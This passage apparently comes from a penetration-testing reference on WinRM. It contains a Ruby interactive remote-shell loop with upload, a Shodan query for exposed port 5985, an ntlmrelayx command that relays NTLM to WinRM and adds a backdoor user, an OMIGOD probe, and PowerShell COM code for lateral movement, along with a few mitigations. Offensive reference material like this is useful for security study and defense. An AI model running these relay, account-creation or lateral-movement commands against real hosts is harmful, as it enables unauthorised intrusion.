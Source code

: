 ```ruby
    until command == "exit\n" do
        output = shell.run("-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')")
        print(output.output.chomp)
        command = gets
        if command.start_with?('UPLOAD') then
            upload_command = command.tokenize
            print("Uploading " + upload_command[1] + " to " + upload_command[2])
            file_manager.upload(upload_command[1], upload_command[2]) do |bytes_copied, total_bytes, local_path, remote_path|
                puts("#{bytes_copied} bytes of #{total_bytes} bytes copied")
            end
            command = "echo `nOKn"
        end
        output = shell.run(command) do |stdout, stderr|
            STDOUT.print(stdout)
            STDERR.print(stderr)
        end
    end
    puts("Exiting with code #{output.exitcode}")
end
```
```
## Shodan

- `port:5985 Microsoft-HTTPAPI`

---

## Recent Vulnerabilities & Offensive Techniques (2021-2025)

### NTLM relay directly to WinRM (WS-MAN)
Since Impacket 0.11 (May 2023) `ntlmrelayx.py` can relay captured NTLM credentials straight to a **WS-MAN**/WinRM listener. When a host still listens on **unencrypted HTTP (5985)** an attacker can combine *mitm6* (or *Responder*) to coerce authentication and obtain SYSTEM-level code-execution:

```bash
sudo ntlmrelayx.py -t wsman://10.0.0.25 --no-smb-server -smb2support \
                   --command "net user pwned P@ssw0rd! /add"
```
```
Mitigations
* Disable HTTP listeners – `Set-Item WSMan:\localhost\Service\EnableCompatibilityHttpListener -Value false`
* Force HTTPS and enable Extended Protection for Authentication (EPA) on recent Windows versions. 

### OMIGOD – CVE-2021-38647 (Azure OMI)
Azure Linux agents use the **Open Management Infrastructure (OMI)** service which exposes the WinRM/WS-MAN API on ports **5985/5986**. A logic error allowed **unauthenticated RCE as root**:

```text
curl http://victim:5985/wsman -H 'Content-Type:text/xml' -d ''
```
```
Patch or remove OMI (version ≥ 1.6.8-1) and block those ports from the Internet. 

### WSMan.Automation COM abuse for lateral movement
WinRM can be driven without PowerShell via the `WSMan.Automation` COM object – useful on systems in Constrained-Language mode. Tools such as *SharpWSManWinRM* wrap this technique:

```powershell
$ws = New-Object -ComObject 'WSMan.Automation'
$session = $ws.CreateSession('http://srv01:5985/wsman',0,$null)
$cmdId   = $session.Command('cmd.exe',@('/c','whoami'))
$session.Signal($cmdId,0)
```